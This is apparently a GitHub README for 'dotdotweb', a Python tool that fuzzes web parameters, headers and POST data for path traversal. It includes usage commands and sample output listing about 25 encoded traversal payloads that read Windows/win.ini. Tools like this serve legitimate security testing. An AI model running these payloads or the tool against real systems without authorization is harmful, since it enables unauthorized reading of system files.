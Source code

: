 dotdotfarm
==========
Utility for detection & exploitation of Path Traversal vulnerabilities in various network services

dotdotweb - PT tool for web services (HTTP) (Alpha version)

Tools are written in Python with using asyncio requests (aiohttp) with some acceleration techniques, which allows you to make **~3K requests per second**

Installation
============
```bash
git clone https://github.com/treddis/dotdotfarm
cd dotdotfarm
pip install -r requirements.txt
python setup.py install
```

How to use
=====
Passing in GET parameters
----------------------
Passing brute parameters via `?par=val` pairs:
```bash
dotdotweb -o windows -fc 500 http://someserver.com:1280/newpath?testparameter=FUZZ&secondparameter=somevalue
```

Passing via headers
-------------------
Passing brute parameters via `Origin: master=FUZZ` pairs:
```bash
dotdotweb -o linux -fc 500,404 -H "Referer: https://www.google.com/path?q=FUZZ" http://someserver.com:1280/newpath?testparameter=firstvalue&secondparameter=somevalue
```

Passing via POST data
---------------------
Passing brute parameters via POST data parameters
```bash
dotdotweb -o linux -fc 500 -fs 111 -d "key0=val0&key1=val1" http://someserver.com:1280/newpath?testparameter=firstvalue&secondparameter=somevalue
```

Example output
==============
```bash
dotdotweb -o linux "http://localhost:8080/pathtrav?query=FUZZ" 
[*] Started at Sun Jan 22 19:32:46 2023
 ../../../Windows/win.ini                                                                          [Status: 200, Size: 111]
 ../Windows/win.ini                                                                                [Status: 200, Size: 111]
 ..\Windows\win.ini                                                                                [Status: 200, Size: 111]
 ..%2fWindows%2fwin.ini                                                                            [Status: 200, Size: 111]
 ..\..\..\Windows\win.ini                                                                          [Status: 200, Size: 111]
 ..%5c..%5c..%5cWindows%5cwin.ini                                                                  [Status: 200, Size: 111]
 ..%5cWindows%5cwin.ini                                                                            [Status: 200, Size: 111]
 .%2e/Windows/win.ini                                                                              [Status: 200, Size: 111]
 .%2e\Windows\win.ini                                                                              [Status: 200, Size: 111]
 .%2e%2fWindows%2fwin.ini                                                                          [Status: 200, Size: 111]
 .%2e%5cWindows%5cwin.ini                                                                          [Status: 200, Size: 111]
 %5C..%5cWindows%5cwin.ini                                                                         [Status: 200, Size: 111]
 f%5C..%2fWindows%2fwin.ini                                                                        [Status: 200, Size: 111]
 %5C../Windows/win.ini                                                                             [Status: 200, Size: 111]
 %5C..\%5C..\%5C..\Windows\win.ini                                                                 [Status: 200, Size: 111]
 .%2e\.%2e\.%2e\Windows\win.ini                                                                    [Status: 200, Size: 111]
 .%2e%5c.%2e%5c.%2e%5cWindows%5cwin.ini                                                            [Status: 200, Size: 111]
 %5C..%2f%5C..%2f%5C..%2fWindows%2fwin.ini                                                         [Status: 200, Size: 111]
 %5C../%5C../%5C../Windows/win.ini                                                                 [Status: 200, Size: 111]
 %5C..%5c%5C..%5c%5C..%5cWindows%5cwin.ini                                                         [Status: 200, Size: 111]
 %2e./Windows/win.ini                                                                              [Status: 200, Size: 111]
 %2e./%2e./%2e./Windows/win.ini                                                                    [Status: 200, Size: 111]
 %2e.%5cWindows%5cwin.ini                                                                          [Status: 200, Size: 111]
 %2e.%5c%2e.%5c%2e.%5cWindows%5cwin.ini                                                            [Status: 200, Size: 111]
 .%2e%2f.%2e%2f.%2e%2fWindows%2fwin.ini                                                            [Status: 200, Size: 111]
[*] Ended at Sun Jan 22 19:32:58 2023 (11 seconds)
```

Limitations
===========
- Python 3.8+
- High speed of requests rate can trigger WAF of you target
- Unable to pass own dictionary for payload generator
- No way to flexibly forge payloaded requests
- Need of OS specifying
